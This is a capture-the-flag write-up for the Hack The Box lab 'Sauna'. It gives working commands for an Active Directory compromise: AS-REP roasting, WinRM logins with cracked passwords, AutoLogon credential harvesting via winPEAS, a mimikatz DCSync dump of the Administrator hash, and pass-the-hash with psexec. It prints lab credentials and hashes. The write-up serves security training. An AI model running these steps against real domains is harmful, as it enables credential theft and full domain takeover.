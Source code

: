 
#SAUNA

##Initial Scan

First I do the normal nmap scan on the IP address 10.10.10.175

```
$nmap -sS -sV -sC 10.10.10.175
```

![](../Pictures/nmao_scan_inittian.png)

After that do the all ports scan:

![](../Pictures/nmap_scan_all_ports.png)

This shows us that the server is running ldap and kerberos

##Trying out common Active Directory Attacks

First I had to get the naming contexts of the AD

```
ldapsearch -h 10.10.10.175 -x -s base namingcontexts
```

The following is the output:

![](../Pictures/getting_naming_contexts.png)

Then trying out the domain controller to see if I get anything

![](../Pictures/getting_naming_contexts.png)

We can find that there is a user called, Hugo Smith. After that I tried doing null authentication using rpcclient but it was of no use, because the null authentication doesn't have any permissions to enumerate the users of the server..

```
rpcclient -U '' 10.10.10.175

>enumdomusers
```
This will result in permission denied. So to find the users I took a look at the impacket tools. I would suggest you to download the latest version of the impacket tools from GitHub.

I used the GetNPUsers.py script to check for any usernames. But it didn't work without the username. So I had to guess the username for the server. I used cewl and jotted down the usernames that the website could provide.

![](../Pictures/potential_users.png)

These are the potential users that I thought there could be. So, I manually made a combination of the names of these users using the popular AD Formats.

```
NameSurname, Name.Surname, NamSur(3 letters of each) , Nam.Sur, NSurname, N.Surname, SurnameName, Surname.Name, SurnameN, Surname.N
```
After creating the names list, I bruteforced using the GetNPUsers.py script. 

```
./GetNPUsers.py -dc-ip 10.10.10.175 -no-pass -request 'egotisticalbank/' -usersfile ~/sauna/names.txt
```
![](../Pictures/getting_creds.png)

We see that we get the creds for the user FSmith. Although I found out that AD is not case sensitive, so it won't matter while logging in. 

##Using winrm to spawn a shell

Since, it is running winrm, we can use evil-winrrm to spawn a Powershell.

```
evil-winrm -u fsmith -p Thestrokes23 -i 10.10.10.175
```

```
evil-winrm -u fsmith -p Thestrokes23 -i 10.10.10.175

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\FSmith\Documents> cd ..
*Evil-WinRM* PS C:\Users\FSmith> cd Desktop
*Evil-WinRM* PS C:\Users\FSmith\Desktop> dir


    Directory: C:\Users\FSmith\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        1/23/2020  10:03 AM             34 user.txt


*Evil-WinRM* PS C:\Users\FSmith\Desktop>
```

Thus, we see that we have pwned the user shell.


##Onto Root

For Windows priviledge esacalation, copy and paste the winPEAS.exe to an smb folder in your working directory where you want to start the smb share.

First start the impacket-smbserver 

```
sudo impacket-smbserver ThatsmaServer $(pwd) -smb2support -user dosxuz -password ThisisME
```

Then put the password and Server name in a Credential Object.

```
$pass = convertto-securestring 'ThisisME' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('dosxuz',$pass)

```

Now we have a credential object.
After this we will create a new PSDrive
```
New-PSDrive -Name dosxuz -PSProvider FileSystem -Credential $cred -Root \\10.10.14.246\ThatsmaServer
```

Then we can move into our own directory in the server.

```
cd dosxuz:
```
**Adding the colon (:) is important as it changes the Drive**

After that I ran the winPEAS.exe for enumeration. I looked for some autologon creds in the server.

```
dosxuz:>.\winPEAS.exe
                                                                                                                                                                                             
  [+] Looking for AutoLogon credentials(T1012)                                                                                                                                                 
    Some AutoLogon credentials were found!!    
    DefaultDomainName             :  EGOTISTICALBANK                                                                                                                                           
    DefaultUserName               :  EGOTISTICALBANK\svc_loanmanager                                                                                                                           
    DefaultPassword               :  Moneymakestheworldgoround!                                                                                                                                
```

So the creds for teh svc_loanmgr (the service account) : 
```
svc_loanmanager : Moneymakestheworldgoround!                                                                                                                                
```

So, I again used the evil-winrm to login as svc_loanmgr :  

```
evil-winrm -u svc_loanmgr -p Moneymakestheworldgoround! -i 10.10.10.175
```

I had to create another connection for this user as well. I cloned the mimikatz github repository and transfered the mimikatz.exe to the target box. Then I ran the DCSync attack using mimikatz.

```
                                                                                                                                                        
*Evil-WinRM* PS C:\Users\svc_loanmgr> .\mimikatz.exe "lsadump::dcsync /user:Administrator" exit                                                                                                
                                                                                                                                                                                               
  .#####.   mimikatz 2.2.0 (x64) #18362 Feb 29 2020 11:13:36                                                                                                                                   
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)                                                                                                                                                    
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )                                                                                                                       
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz                                                                                                                                         
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )                                                                                                                      
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/                                                                                                                      
                                                                                                                                                                                               
mimikatz(commandline) # lsadump::dcsync /user:Administrator                                                                                                                                    
[DC] 'EGOTISTICAL-BANK.LOCAL' will be the domain                                                                                                                                               
[DC] 'SAUNA.EGOTISTICAL-BANK.LOCAL' will be the DC server                                                                                                                                      
[DC] 'Administrator' will be the user account                                                                                                                                                  
                                                                                                                                                                                               
Object RDN           : Administrator                                                                                                                                                           
                                                                                                                                                                                               
** SAM ACCOUNT **                                                                                                                                                                                                                                                                                                                                                                             SAM Username         : Administrator                                                                                                                                                           
Account Type         : 30000000 ( USER_OBJECT )                                                                                                                                                
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )                                                                                                                          
Account expiration   :                                                                                                                                                                         
Password last change : 1/24/2020 10:14:15 AM                                                                                                                                                   
Object Security ID   : S-1-5-21-2966785786-3096785034-1186376766-500                                                                                                                           
Object Relative ID   : 500                                                                                                                                                                     
                                                                                                                                                                                               
Credentials:                                                                                                                                                                                   
  Hash NTLM: d9485863c1e9e05851aa40cbb4ab9dff                                                                                                                                                  
    ntlm- 0: d9485863c1e9e05851aa40cbb4ab9dff                                                                                                                                                  
    ntlm- 1: 7facdc498ed1680c4fd1448319a8c04f                                                                                                                                                  
    lm  - 0: ee8c50e6bc332970a8e8a632488f5211                 
```

So I got the NTLM hashes for the Administrator and now I can use crackmapexec and then psexec to pwn the admin.

```
crackmapexec smb 10.10.10.175 -u Administrator -H d9485863c1e9e05851aa40cbb4ab9dff                                                                                                                                                  
```

It will say that the user is Pwn3d! then we can use psexec.py

```
psexec -hashes d9485863c1e9e05851aa40cbb4ab9dff:d9485863c1e9e05851aa40cbb4ab9dff administrator@10.10.10.175
```

![](../Pictures/admin.png)